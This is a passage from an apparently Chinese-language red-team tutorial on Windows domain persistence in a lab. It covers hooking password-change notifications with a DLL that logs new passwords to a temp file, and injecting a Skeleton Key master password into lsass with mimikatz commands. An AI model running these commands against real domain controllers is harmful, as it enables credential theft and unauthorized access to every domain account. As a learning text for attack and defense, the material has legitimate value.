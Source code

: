 [https://github.com/clymb3r/Misc-Windows-Hacking # 远程版的](https://github.com/clymb3r/Misc-Windows-Hacking)

我们，这里主要介绍一下本地版的：

这里，我们需要事先编译！！！ 打开文件，我们可以看到代码中写入的密码本存储位置：

![截图](e20a19d01e5a014d31044cd4ac51d9ea.png)

这里，可以自行修改也可以不改。 然后，我们进行编译：（编译时候需要在静态库中使用MFC）

![截图](c16b35085a2bf2cd9d39dc330aa801d4.png)

![截图](b2a7b284b9f7cef48ec4b49820ffe730.png)

然后，此时就生成了个`HookPasswordChange.dll`文件，然后我们把它和`HookPasswordChangeNotify.ps1`放在一起，上传到靶机中，并运行如下命令：powershell

```powershell
 Import-Module .\HookPasswordChangeNotify.ps1
```

此时，我们只要更改密码，则在`C:\Windows\Temp\Password.txt`中就会记录了：

![截图](827f2afaba884db71577dd270b7b710f.png)

> 这里，由于god环境中不知道为什么缺失了msvcp14..dll。而且，即使我手动添加后依然显示找不到，因此我换了redteam环境的dc主机进行测试！
> {: .prompt-info}


## 0x03 基于登录进程劫持-Skeleton Key-万能密码

该方法也可以称之为万能密钥，即给所有域内用户添加一个相同的密码，域内所有的用户都可以使用这个密码进行认证，同时原始密码也可以使用，其原理就是对 lsass.exe 进行注入，**所以重启后会失效，不需要重启。**

将Skeleton Key安装在域控制器上，便能够能够让所有域用户使用同一个万能密码对域控进行登录，现有的所有域用户使用原密码仍能继续登录，==注意万能密码并不能更改用户权限，重启将失效。==

#### 利用过程

当我们未注入前，我们用web主机直接与DC主机通讯将会被拒绝访问：

```cmd
dir \\owa2010cn-god\c$
```

![截图](967ab1f889c5d76c82a710051672598f.png)

此时，我们在DC中注入到`lsass`进程：（使用mimikatz）

```shell
privilege::debug
misc::skeleton
```

此时，我们利用web主机重新通信：（这里的mimikatz就是我们的万能密钥，域内所有主机都可利用此通信！）

```cmd
net use \\owa2010cn-god\ipc$ "mimikatz" /user:god\administrator
dir \\owa2010cn-god\c$
```
